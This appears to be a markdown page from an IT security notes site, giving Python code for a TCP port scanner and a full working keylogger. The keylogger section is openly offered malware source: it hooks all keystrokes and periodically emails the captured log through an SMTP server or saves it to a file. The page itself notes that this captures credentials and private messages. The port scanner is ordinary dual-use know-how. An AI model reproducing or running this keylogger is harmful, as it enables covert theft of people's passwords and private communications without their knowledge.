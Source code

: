 ```yaml
---
layout: default
title: IT sikkerhed Code
parent: IT security
nav_order: 30
---
```


<span class="fs-1">
[HOME](./index.md){: .btn .btn-blue }
</span>

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

# Code

## Port Scanner

### Install

    pip3 install colorama

### Use

    python3 fast_port_scanner.py 192.168.1.1 --ports 1-5000

### Code

 ```python
 import socket # for connecting
from colorama import init, Fore

# some colors
init()
GREEN = Fore.GREEN
RESET = Fore.RESET
GRAY = Fore.LIGHTBLACK_EX

def is_port_open(host, port):
    """
    determine whether `host` has the `port` open
    """
    # creates a new socket
    s = socket.socket()
    try:
        # tries to connect to host using that port
        s.connect((host, port))
        # make timeout if you want it a little faster ( less accuracy )
        s.settimeout(0.2)
    except:
        # cannot connect, port is closed
        # return false
        return False
    else:
        # the connection was established, port is open!
        return True

# get the host from the user
host = input("Enter the host:")
# iterate over ports, from 1 to 1024
for port in range(1, 1025):
    if is_port_open(host, port):
        print(f"{GREEN}[+] {host}:{port} is open      {RESET}")
    else:
        print(f"{GRAY}[!] {host}:{port} is closed    {RESET}", end="\r")
 ```

 Get the file: [fast_port_scanner.py](../it_security/code/portscanner/fast_port_scanner.py)

# Keylogger
A keylogger is a type of surveillance technology used to monitor and record each keystroke typed on a specific computer's keyboard. It is also considered malware since it can be invisible running in the background, and the user cannot notice the presence of this program.

With a keylogger, you can easily use this for unethical purposes; you can register everything the user is typing on the keyboard, including credentials, private messages, etc., and send them back to you.

## Modules

    pip3 install keyboard

This module allows you to take complete control of your keyboard, hook global events, register hotkeys, simulate key presses, and much more, and it is a small module, though.


## Code
Run the code for 60 seconds and it will create a txt file.

 ```python
import keyboard # for keylogs
import smtplib # for sending email using SMTP protocol (gmail)
# Timer is to make a method runs after an `interval` amount of time
from threading import Timer
from datetime import datetime
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText

SEND_REPORT_EVERY = 60 # in seconds, 60 means 1 minute and so on
EMAIL_ADDRESS = "email@provider.tld"
EMAIL_PASSWORD = "password_here"

class Keylogger:
    def __init__(self, interval, report_method="email"):
        # we gonna pass SEND_REPORT_EVERY to interval
        self.interval = interval
        self.report_method = report_method
        # this is the string variable that contains the log of all 
        # the keystrokes within `self.interval`
        self.log = ""
        # record start & end datetimes
        self.start_dt = datetime.now()
        self.end_dt = datetime.now()

    def callback(self, event):
        """
        This callback is invoked whenever a keyboard event is occured
        (i.e when a key is released in this example)
        """
        name = event.name
        if len(name) > 1:
            # not a character, special key (e.g ctrl, alt, etc.)
            # uppercase with []
            if name == "space":
                # " " instead of "space"
                name = " "
            elif name == "enter":
                # add a new line whenever an ENTER is pressed
                name = "[ENTER]\n"
            elif name == "decimal":
                name = "."
            else:
                # replace spaces with underscores
                name = name.replace(" ", "_")
                name = f"[{name.upper()}]"
        # finally, add the key name to our global `self.log` variable
        self.log += name
    
    def update_filename(self):
        # construct the filename to be identified by start & end datetimes
        start_dt_str = str(self.start_dt)[:-7].replace(" ", "-").replace(":", "")
        end_dt_str = str(self.end_dt)[:-7].replace(" ", "-").replace(":", "")
        self.filename = f"keylog-{start_dt_str}_{end_dt_str}"

    def report_to_file(self):
        """This method creates a log file in the current directory that contains
        the current keylogs in the `self.log` variable"""
        # open the file in write mode (create it)
        with open(f"{self.filename}.txt", "w") as f:
            # write the keylogs to the file
            print(self.log, file=f)
        print(f"[+] Saved {self.filename}.txt")

    def prepare_mail(self, message):
        """Utility function to construct a MIMEMultipart from a text
        It creates an HTML version as well as text version
        to be sent as an email"""
        msg = MIMEMultipart("alternative")
        msg["From"] = EMAIL_ADDRESS
        msg["To"] = EMAIL_ADDRESS
        msg["Subject"] = "Keylogger logs"
        # simple paragraph, feel free to edit
        html = f"<p>{message}</p>"
        text_part = MIMEText(message, "plain")
        html_part = MIMEText(html, "html")
        msg.attach(text_part)
        msg.attach(html_part)
        # after making the mail, convert back as string message
        return msg.as_string()

    def sendmail(self, email, password, message, verbose=1):
        # manages a connection to an SMTP server
        # in our case it's for Microsoft365, Outlook, Hotmail, and live.com
        server = smtplib.SMTP(host="smtp.office365.com", port=587)
        # connect to the SMTP server as TLS mode ( for security )
        server.starttls()
        # login to the email account
        server.login(email, password)
        # send the actual message after preparation
        server.sendmail(email, email, self.prepare_mail(message))
        # terminates the session
        server.quit()
        if verbose:
            print(f"{datetime.now()} - Sent an email to {email} containing:  {message}")

    def report(self):
        """
        This function gets called every `self.interval`
        It basically sends keylogs and resets `self.log` variable
        """
        if self.log:
            # if there is something in log, report it
            self.end_dt = datetime.now()
            # update `self.filename`
            self.update_filename()
            if self.report_method == "email":
                self.sendmail(EMAIL_ADDRESS, EMAIL_PASSWORD, self.log)
            elif self.report_method == "file":
                self.report_to_file()
                # if you don't want to print in the console, comment below line
                print(f"[{self.filename}] - {self.log}")
            self.start_dt = datetime.now()
        self.log = ""
        timer = Timer(interval=self.interval, function=self.report)
        # set the thread as daemon (dies when main thread die)
        timer.daemon = True
        # start the timer
        timer.start()

    def start(self):
        # record the start datetime
        self.start_dt = datetime.now()
        # start the keylogger
        keyboard.on_release(callback=self.callback)
        # start reporting the keylogs
        self.report()
        # make a simple message
        print(f"{datetime.now()} - Started keylogger")
        # block the current thread, wait until CTRL+C is pressed
        keyboard.wait()

    
if __name__ == "__main__":
    # if you want a keylogger to send to your email
    # keylogger = Keylogger(interval=SEND_REPORT_EVERY, report_method="email")
    # if you want a keylogger to record keylogs to a local file 
    # (and then send it using your favorite method)
    keylogger = Keylogger(interval=SEND_REPORT_EVERY, report_method="file")
    keylogger.start()
 ```

 Get the file: [keylogger.py](../it_security/code/keylogger/keylogger.py)